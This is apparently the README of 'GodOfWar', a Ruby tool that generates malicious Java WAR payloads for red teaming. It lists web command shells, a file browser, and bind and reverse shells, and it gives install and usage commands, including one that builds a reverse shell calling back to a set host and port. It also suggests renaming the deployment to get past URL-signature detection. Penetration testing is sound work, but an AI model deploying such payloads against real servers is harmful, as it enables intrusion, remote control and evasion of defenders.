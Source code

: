 # GodOfWar - Malicious Java WAR builder
A command-line tool to generate war payloads for penetration testing / red teaming purposes, written in ruby.

```
                              .
                             hhh              
                            hhhhhhh           
                           hhhhhhhh        
                          hhhhhhhh+        
                         hhhhhhhh'           
                        hhhhhhhh.            
                       hhhhhhhhh             
        ..--          hhhhhhhhh             
      -sh/..  +.     hhhhhhhhh:              
      /+/:-/+ss-`   hhhhhhhhhh:               
      /MMM`ss:``.`  hhhhhhhhhh:              
     .MMMMM:        hhhhhhhhhhhhhhhhh:       
     MMMMMMM:        hhhhhhhhhhhhhhhh:      
     MMMMMMMMMMMMM:  hhhhhhhhhhhhhhhh`       
    :NNm:odh/oMMMNs. hhhhhhhhhhhhhhhh`       
   ./:`smdo+oos++-    `++sNMMMMMNmh+         
      .-y-`     ` :.  /   -dmddhhhhh-        
       o/-     `//o/ /M/   `+hhhhhhhh`       
      /o     :yosmy   +y  .`.hhhhhhhho       
      +`     /../.:      `.y::hhhhhs:`       
       `      `+yys`   .sy` /oohhy:          
                `/:s/-``     `.hh`           
               ..`     `       y+            
            .hNNmmNdymmmmds`   :-            
            hs.   ``..    :y-  `             
               -hhmNmddm+   .                
               `NMMMMMMm                     
                ` `oMMy                      
            `.     /Md-      :o  
           MMMMMMMMMMMMMMMMMMM:             
            MMMMMMMMMMMMMMMMMM:              
             MMMMMMMMMMMMMMMMM               
              MMMMMMMMMMMMMMM.               
              `MMMMMMMMMMMMM.                 
                :sNMMMNMdo:                  
                  ``+m:/-                    
                     `                                  
GodOfWar - Malicious Java WAR builder.
```

## Features

- Preexisting payloads. (try `-l/--list`)
    - cmd_get
    - filebrowser
    - bind_shell
    - reverse_shell
    - reverse_shell_ui 
- Configurable backdoor. (try `--host/-port`)
- Control over payload name. 
  - To avoid malicious name after deployment to bypass URL name signatures.

## Installation

```
$ gem install godofwar
```

## Usage
```
$ godofwar -h 

Help menu:
   -p, --payload PAYLOAD            Generates war from one of the available payloads.
                                        (check -l/--list)
   -H, --host IP_ADDR               Local or Remote IP address for the chosen payload
                                        (used with -p/--payload)
   -P, --port PORT                  Local or Remote Port for the chosen payload
                                        (used with -p/--payload)
   -o, --output [FILE]              Output file and the deployment name.
                                        (default is the payload original name. check '-l/--list')
   -l, --list                       list all available payloads.
   -h, --help                       Show this help message.
```

### Example 

**List all payloads**
```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a HTML form to set LHOST and LPORT from browser.
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell_ui
├── reverse_shell
│   └── Information:
│       ├── Description: TCP reverse shell. LHOST and LPORT are hardcoded
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell
```

**Generate payload with LHOST and LPORT**
```
godofwar -p reverse_shell_ui -H 192.168.100.10  -P 9911 -o puppy
```
After deployment, you can visit your shell on (http://host:8080/puppy/puppy.jsp) 

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/godofwar.


## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).


